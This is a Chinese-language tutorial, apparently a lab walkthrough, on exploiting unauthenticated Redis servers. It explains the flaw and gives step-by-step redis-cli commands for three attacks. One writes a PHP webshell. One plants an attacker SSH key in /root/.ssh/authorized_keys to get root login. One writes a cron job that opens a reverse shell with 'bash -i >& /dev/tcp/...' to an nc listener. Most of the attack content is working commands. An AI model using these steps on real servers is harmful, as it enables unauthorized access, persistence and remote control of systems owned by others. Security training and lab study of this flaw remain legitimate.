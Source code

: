 # Redis 未授权访问漏洞

# 漏洞原理

**Redis默认情况下会绑定在0.0.0.0:6379，如果没有采用相关的策略，会将Redis服务暴露在公网上，如果在没有设置密码认证的(一般为空)的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问redis以及读取redis的数据，攻击者在未授权访问redis的情况下，利用redis自身提供的config命令，可以进行写文件操作，比如一句话马儿等，攻击者可以成功将自己的ssh公钥写入目标服务器的/root/.ssh文件夹的authotrized_keys文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器**



# **利用条件**

- redis绑定在0.0.0.0:6379，并且没有添加防火墙规避避免其他非信任来源ip访问等相关安全策略，直接暴露在公网
- 没有设置密码认证(一般为空)，可以免密码远程登录redis服务



# 漏洞危害

- 攻击者无需认证访问到内部数据，可能导致敏感信息泄露，攻击者也可以恶意执行flushall命令来清空所有数据
- 攻击者可通过eval执行Lua代码，来执行Redis Lua沙箱逃逸漏洞可造成远程代码执行，或通过数据备份功能往磁盘写入后门文件
- 严重的情况，如果redis以root身份允许，攻击者可以使用root账户写入ssh公钥文件，直接通过ssh登录受害者服务器



# 漏洞验证

打开一个新的终端，在窗口使用`redis-cli` -h xxx命令，测试远程能否正常连接redis：

```
redis-cli -h xxx
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210715154108381.png)

**连接成功后可以开始写入webshell**

创建两个文件

```
config set dir /tmp
config set dbfilename 
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210715160109303.png)

写入一句话马儿

```
config set dbfilename redis.php
set webshell "<?php phpinfo(); ?>"
```

save保存

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210715160002564.png)



可以在靶机上查看，已经写入成功 

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210715160425897.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3N5Y2Ftb3JlbGc=,size_16,color_FFFFFF,t_70)

**使用蚁剑连接即可**





利用公私钥获取root权限

在靶机中创建ssh公钥存放目录，一般是 /root/.ssh



mkdir /root/.ssh

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210715163813594.png)

在攻击机中生成ssh私钥和公钥，密码为空，ssh-keygen -t rsa

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210715160954561.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3N5Y2Ftb3JlbGc=,size_16,color_FFFFFF,t_70)

```
进入.ssh目录：cd .ssh/，将生成的公钥保存到1.txt：
(echo -e "\n\n";cat id_rsa.pub;echo -e "\n\n") > 1.txt
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210715161600459.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3N5Y2Ftb3JlbGc=,size_16,color_FFFFFF,t_70)

```
连接靶机的Redis，将刚生成的公钥1.txt写入redis
cat 1.txt | redis-cli 192.168.209.136 -x set crack
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210715164020868.png)

```
攻击机连接靶机redis：redis-cli -h 192.168.209.136

使用 config get dir 命令得到redis备份的路径，更改redis备份路径为ssh公钥存放目录（一般默认为/root/.ssh）并设置上传公钥的备份文件名字为authorized_keys：
config get dir
config set dir /root/.ssh
config set dbfilename "authorized_keys"
save
```



![在这里插入图片描述](https://img-blog.csdnimg.cn/20210715164447493.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3N5Y2Ftb3JlbGc=,size_16,color_FFFFFF,t_70)



到这一步，ssh公钥已经成功的写入了靶机。

```
利用ssh免密登录到靶机：ssh -i id_rsa root@192.168.209.136
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210715170023682.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3N5Y2Ftb3JlbGc=,size_16,color_FFFFFF,t_70)



## 利用redis反弹shell

原理：在攻击机上开启nc反弹端口监听，通过redis未授权访问漏洞，写入Linux定时计划，反弹shell。

利用条件对`/var/spool/cron`文件夹有写入权限

利用过程首先在攻击机监听一个端口：

```bash
$ nc -lvnp 6666
```

![img](https://img.jbzj.com/file_images/article/202107/2021071110061135.jpg)

在攻击机开启新的命令行窗口，连接受害机的redis服务，然后执行下面的命令：

```bash
$ set x "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.101.8/6666 0>&1\n\n\n"
$ config set dir /var/spool/cron/
$ config set dbfilename root
$ save
```

![img](https://img.jbzj.com/file_images/article/202107/2021071110061136.jpg)

注意此处的计划任务命令，如果在Ubuntu中，是无法反弹shell的，原因是因为ubuntu会将redis写入的缓存乱码当作命令来解释，导致执行不成功。而centos不会对乱码进行解释，可以成功执行反弹shell的命令。

可以在受害机查看文件是否保存成功：

![img](https://img.jbzj.com/file_images/article/202107/2021071110061237.jpg)

但是在ubuntu下无法反弹shell，这是由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划，而ubuntu并不会忽略这些乱码，所以导致命令执行失败，因为自己如果不使用redis写任务计划文件，而是正常向`/etc/cron.d`目录下写任务计划文件的话，命令是可以正常执行的，所以还是乱码的原因导致命令不能正常执行，而这个问题是不能解决的，因为利用redis未授权访问写的任务计划文件里都有乱码，这些代码来自redis的缓存数据。